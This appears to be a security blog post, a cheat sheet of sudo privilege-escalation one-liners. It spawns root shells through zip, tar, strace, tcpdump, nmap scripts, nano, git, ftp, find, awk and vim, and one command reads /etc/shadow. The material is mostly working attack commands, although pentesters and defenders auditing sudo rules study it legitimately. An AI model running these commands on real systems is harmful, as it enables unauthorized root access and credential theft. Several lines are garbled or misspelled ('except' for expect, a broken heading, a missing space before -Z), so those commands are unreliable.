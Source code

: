 $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"

#### Using tar command

$ sudo tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash

#### Using strace command

$ sudo strace -o/dev/null /bin/bash

U#### sing tcpdump command

$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
$ chmod +x /tmp/.shell
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root

#### Using nmap command

$ echo "os.execute('/bin/sh')" > /tmp/shell.nse 
$ sudo nmap --script=/tmp/shell.nse

#### Using scp command

$ sudo scp -S /path/yourscript x y

#### Using except command

$ sudo except spawn sh then sh

#### Using nano command

$ sudo nano -S /bin/bash

type your command and hit CTRL+T 
#### Using git command

$ sudo git help status

type:  !/bin/bash
#### Using gdb/ftp command

$ sudo ftp

type :  !/bin/sh

References: —

    https://recipeforroot.com/abusing-sudo/
    https://github.com/TH3xACE/SUDO_KILLER — good reference to read
    https://github.com/0x00-0x00/FakePip — cool method
    https://touhidshaikh.com/blog/?p=790 credit goes to this guy for this blog!

I posted some if you know any other please comment and share knowledge with other Happy HAcking.

Thanks for visiting this blog. Join Certcube Labs for IT security Training & Certifications.



### 1. In command prompt type any of the following:
a. sudo find /bin -name nano -exec /bin/sh \;
b. sudo awk 'BEGIN {system("/bin/sh")}'
c. echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
d. sudo vim -c '!sh'